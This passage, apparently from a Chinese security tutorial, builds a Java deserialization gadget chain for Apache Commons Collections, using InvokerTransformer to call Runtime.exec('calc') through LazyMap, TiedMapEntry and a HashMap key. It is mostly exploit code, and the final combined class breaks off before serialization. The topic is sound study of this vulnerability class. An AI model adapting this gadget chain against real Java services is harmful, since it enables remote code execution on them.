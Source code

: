 ## 构建利用代码

transform这部分和CC1相同：

```java
Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",new Class[] {String.class,Class[].class},new Object[] {"getRuntime", null}),
            new InvokerTransformer("invoke",new Class[] {Object.class,Object[].class},new Object[] {null, null}),
            new InvokerTransformer("exec",new Class[] {String.class},new String[] {"calc"})
};
```

同样通过LazyMap的decorate方法创建对象：

```java
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```

现在，我拿到了⼀个恶意的LazyMap对象 outerMap ，可以将其作为 TiedMapEntry 的map属性。

TiedMapEntry实现了Serializable接口且构造函数的作用域是public，所以直接实例化：

```java
TiedMapEntry tme = new TiedMapEntry(outerMap,"Troy3e");
```

如何调用TiedMapEntry的hashCode？我们需要将tme作为HashMap的key。

```java
HashMap hashMap = new HashMap();
hashMap.put(tme,"Troy3e");
```

整合起来：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[] {String.class,Class[].class},new Object[] {"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[] {Object.class,Object[].class},new Object[] {null, null}),
                new InvokerTransformer("exec",new Class[] {String.class},new String[] {"calc"})
        };
        ChainedTransformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tme = new TiedMapEntry(outerMap,"Troy3e");
        HashMap hashMap = new HashMap();
        hashMap.put(tme,"Troy3e");

```